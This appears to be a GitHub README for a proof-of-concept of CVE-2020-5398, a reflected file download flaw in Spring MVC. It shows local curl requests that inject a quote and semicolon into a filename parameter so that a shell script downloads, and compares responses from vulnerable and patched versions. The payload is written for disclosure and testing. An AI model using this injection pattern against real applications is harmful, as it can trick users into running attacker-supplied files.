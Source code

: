 # CVE-2020-5398 - RFD(Reflected File Download) Attack for Spring MVC

> In Spring Framework, versions 5.2.x prior to 5.2.3, versions 5.1.x prior to 5.1.13, and versions 5.0.x prior to 5.0.16, an application is vulnerable to a reflected file download (RFD) attack when it sets a “Content-Disposition” header in the response where the filename attribute is derived from user supplied input.

## Using

1.
```
./gradlew bootrun
```

Listen on `127.0.0.1:8080`.

2.
```
$ curl 'http://127.0.0.1:8080/?filename=sample&contents=Hello,%20World' --dump-header -
HTTP/1.1 200
Content-Disposition: attachment; filename="sample.txt"
Content-Type: application/octet-stream
Content-Length: 12
Date: Fri, 17 Jan 2020 05:41:08 GMT

Hello, World
```

Start download `sample.txt` file.

## PoC

### Insecure Version(Spring Web 5.2.2)

```
curl 'http://127.0.0.1:8080/?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Aid' --dump-header -
HTTP/1.1 200
Content-Disposition: attachment; filename="sample.sh";.txt"
Content-Type: application/octet-stream
Content-Length: 14
Date: Fri, 17 Jan 2020 05:22:18 GMT

#!/bin/bash
id
```

Start download `sample.sh` file.(Shell file)

### Secure Version(Spring Web 5.2.3)

```
$ curl 'http://127.0.0.1:8080/?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Aid' --dump-header -
HTTP/1.1 200
Content-Disposition: attachment; filename="sample.sh\";.txt"
Content-Type: application/octet-stream
Content-Length: 14
Date: Fri, 17 Jan 2020 05:24:47 GMT

#!/bin/bash
id
```

Start download `sample.sh";.txt` file.(Text file)

## References

- [CVE-2020-5398: RFD Attack via “Content-Disposition” Header Sourced from Request Input by Spring MVC or Spring WebFlux Application | Security | Pivotal](https://pivotal.io/security/cve-2020-5398)
- [NVD - CVE-2020-5398](https://nvd.nist.gov/vuln/detail/CVE-2020-5398)
- What's RFD Attack?
  - [eu-14-Hafif-Reflected-File-Download-A-New-Web-Attack-Vector.pdf](https://www.blackhat.com/docs/eu-14/materials/eu-14-Hafif-Reflected-File-Download-A-New-Web-Attack-Vector.pdf)
  - [Reflected File Download - OWASP](https://wiki.owasp.org/index.php/Reflected_File_Download)
- Fix Commit
  - [ContentDisposition refactoring · spring-projects/spring-framework@956ffe6](https://github.com/spring-projects/spring-framework/commit/956ffe68587c8d5f21135b5ce4650af0c2dea933)
